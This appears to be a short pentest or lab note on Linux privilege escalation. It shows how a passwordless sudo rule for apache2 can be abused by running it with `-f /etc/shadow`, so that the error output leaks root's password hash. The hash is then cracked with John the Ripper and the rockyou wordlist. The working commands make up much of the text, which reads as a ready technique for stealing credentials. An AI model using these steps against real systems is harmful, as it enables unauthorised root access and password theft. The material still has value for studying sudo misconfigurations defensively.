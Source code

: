 # Abusing attended functionality

This allows running `apache2` as root without password. Apache config files can `Include` arbitrary files, so we can read root-only files through error output.

![image.png](<../../../.gitbook/assets/image (1) (1) (1) (1) (1).png>)

```bash
sudo /usr/sbin/apache2 -f /etc/shadow
```

which case error but hashed of root is leaked

then unshadow and crack hash

<figure><img src="../../../.gitbook/assets/image 1 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
john shadow1 --wordlist=~/wordlist/rockyou.txt --pot=deleteme.pot
```

we use this option `--pot=deleteme.pot` to force john start crack again
